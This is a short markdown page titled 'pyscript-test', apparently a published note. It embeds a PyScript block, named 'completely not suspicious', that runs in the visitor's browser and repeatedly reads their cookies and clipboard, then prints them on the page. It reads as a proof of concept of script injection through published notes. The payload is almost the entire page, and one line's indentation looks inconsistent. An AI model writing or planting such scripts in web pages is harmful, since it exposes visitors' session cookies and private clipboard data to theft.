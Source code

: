 ```yaml
---
publish: true
title: pyscript-test
---
```



<div id="c"></div>
<script type="module" src="https://pyscript.net/releases/2025.2.1/core.js"></script>
<script type="py" config='{"name": "completely not suspicious", "packages": ["asyncio"]}'>
import asyncio, js, pyscript, base64, urllib
from pyodide.ffi import create_proxy
import warnings
warnings.filterwarnings("ignore")

from js import XMLHttpRequest
from io import StringIO
from pyscript import document

async def get_clipboard_data():
        try:
            all_cookies = document.cookie
            text_data = await js.navigator.clipboard.readText()
	        print("Cookies:\n"+all_cookies+"\nClipBoard:\n"+text_data)
        except:
            pass

pyscript.document.querySelector("#c").focus()
get_clipboard_data_proxy = create_proxy(get_clipboard_data)
print("<h1>Data Found by clicking this page:<h1>\n\n")
async def main():
    while True:
        try:
            asyncio.ensure_future(get_clipboard_data_proxy())
            await asyncio.sleep(10)
        except:
            pass

main()
</script>
